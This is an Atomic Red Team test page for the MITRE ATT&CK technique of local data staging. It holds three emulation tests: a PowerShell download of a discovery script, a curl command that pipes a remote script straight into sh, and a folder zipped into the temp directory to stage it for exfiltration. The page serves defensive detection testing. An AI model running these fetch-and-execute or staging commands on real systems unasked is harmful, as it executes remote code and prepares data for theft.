 # T1074.001 - Data Staged: Local Data Staging

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1074/001)

<blockquote>Adversaries may stage collected data in a central location or directory on the local system prior to Exfiltration. Data may be kept in separate files or combined into one file through techniques such as [Archive Collected Data](https://attack.mitre.org/techniques/T1560). Interactive command shells may be used, and common functionality within [cmd](https://attack.mitre.org/software/S0106) and bash may be used to copy data into a staging location.

Adversaries may also stage collected data in various available formats/locations of a system, including local storage databases/repositories or the Windows Registry.(Citation: Prevailion DarkWatchman 2021)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Stage data from Discovery.bat](#atomic-test-1---stage-data-from-discoverybat)

- [Atomic Test #2 - Stage data from Discovery.sh](#atomic-test-2---stage-data-from-discoverysh)

- [Atomic Test #3 - Zip a Folder with PowerShell for Staging in Temp](#atomic-test-3---zip-a-folder-with-powershell-for-staging-in-temp)

<br/>

## Atomic Test #1 - Stage data from Discovery.bat

Utilize powershell to download discovery.bat and save to a local file. This emulates an attacker downloading data collection tools onto the host. Upon execution,
verify that the file is saved in the temp directory.

**Supported Platforms:** Windows

**auto_generated_guid:** 107706a5-6f9f-451a-adae-bab8c667829f

#### Inputs:

| Name        | Description                                    | Type | Default Value               |
| ----------- | ---------------------------------------------- | ---- | --------------------------- |
| output_file | Location to save downloaded discovery.bat file | path | $env:TEMP&#92;discovery.bat |

#### Attack Commands: Run with `powershell`!

```powershell
Invoke-WebRequest "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074.001/src/Discovery.bat" -OutFile #{output_file}
```

#### Cleanup Commands:

```powershell
Remove-Item -Force #{output_file} -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #2 - Stage data from Discovery.sh

Utilize curl to download discovery.sh and execute a basic information gathering shell script

**Supported Platforms:** Linux, macOS

**auto_generated_guid:** 39ce0303-ae16-4b9e-bb5b-4f53e8262066

#### Inputs:

| Name        | Description                                    | Type | Default Value                |
| ----------- | ---------------------------------------------- | ---- | ---------------------------- |
| output_file | Location to save downloaded discovery.bat file | path | /tmp/T1074.001_discovery.log |

#### Attack Commands: Run with `sh`!

```sh
curl -s https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074.001/src/Discovery.sh | sh -s > #{output_file}
```

#### Cleanup Commands:

```sh
rm #{output_file}
```

#### Dependencies: Run with `sh`!

##### Description: Check if curl is installed on the machine.

##### Check Prereq Commands:

```sh
if [ -x "$(command -v curl)" ]; then echo "curl is installed"; else echo "curl is NOT installed"; exit 1; fi
```

##### Get Prereq Commands:

```sh
which apt && apt update && apt install -y curl || which pkg && pkg update && pkg install -y curl
```

<br/>
<br/>

## Atomic Test #3 - Zip a Folder with PowerShell for Staging in Temp

Use living off the land tools to zip a file and stage it in the Windows temporary folder for later exfiltration. Upon execution, Verify that a zipped folder named Folder_to_zip.zip
was placed in the temp directory.

**Supported Platforms:** Windows

**auto_generated_guid:** a57fbe4b-3440-452a-88a7-943531ac872a

#### Inputs:

| Name        | Description                            | Type | Default Value                                               |
| ----------- | -------------------------------------- | ---- | ----------------------------------------------------------- |
| output_file | Location to save zipped file or folder | path | $env:TEMP&#92;Folder_to_zip.zip                             |
| input_file  | Location of file or folder to zip      | path | PathToAtomicsFolder&#92;T1074.001&#92;bin&#92;Folder_to_zip |

#### Attack Commands: Run with `powershell`!

```powershell
Compress-Archive -Path "#{input_file}" -DestinationPath #{output_file} -Force
```

#### Cleanup Commands:

```powershell
Remove-Item -Path #{output_file} -ErrorAction Ignore
```

<br/>
